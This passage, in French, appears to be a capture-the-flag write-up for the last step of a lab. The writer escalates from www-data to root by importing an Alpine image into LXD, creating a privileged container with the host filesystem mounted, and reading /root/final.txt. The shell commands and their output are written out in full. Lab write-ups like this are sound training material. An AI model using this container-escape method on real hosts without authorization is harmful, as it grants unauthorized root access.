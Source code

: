 On récupère les outils pour faire une image alpine.   
On la construit.   
On met un serveur http ou télécharger l'image sur la machine cible.

On télécharge l'image.   

```bash
www-data@ubuntu:/tmp$ lxc image import ./alpine-v3.14-x86_64-20210820_1703.tar.gz --alias myimage
www-data@ubuntu:/tmp$ lxc image list

lxc image list
+---------+--------------+--------+-------------------------------+--------+--------+------------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE          |
+---------+--------------+--------+-------------------------------+--------+--------+------------------------------+
| myimage | 793f41aab6a0 | no     | alpine v3.14 (20210820_17:03) | x86_64 | 3.09MB | Aug 20, 2021 at 3:17pm (UTC) |
+---------+--------------+--------+-------------------------------+--------+--------+------------------------------+

www-data@ubuntu:/tmp$ lxc init myimage ignite -c security.privileged=true
lxc init myimage ignite -c security.privileged=true
Creating ignite

www-data@ubuntu:/tmp$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
<ydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to ignite

www-data@ubuntu:/tmp$ lxc start ignite
lxc start ignite

www-data@ubuntu:/tmp$ lxc exec ignite /bin/sh
lxc exec ignite /bin/sh
lxc exec ignite /bin/sh

~ # ^[[52;5Rid
id
uid=0(root) gid=0(root)

```

On exploit l'exploit et on s'évade du conteneur avec les droits root.  

**What is the name of the file in the /root directory?**

```bash
/ # cd /mnt/root/root
cd /mnt/root/root
/mnt/root/root # ls       
ls
final.txt
/mnt/root/root # cat final.txt
cat final.txt

     ██╗ ██████╗ ██╗  ██╗███████╗██████╗ 
     ██║██╔═══██╗██║ ██╔╝██╔════╝██╔══██╗
     ██║██║   ██║█████╔╝ █████╗  ██████╔╝
██   ██║██║   ██║██╔═██╗ ██╔══╝  ██╔══██╗
╚█████╔╝╚██████╔╝██║  ██╗███████╗██║  ██║
 ╚════╝  ╚═════╝ ╚═╝  ╚═╝╚══════╝╚═╝  ╚═╝
                                         
!! Congrats you have finished this task !!		
							
```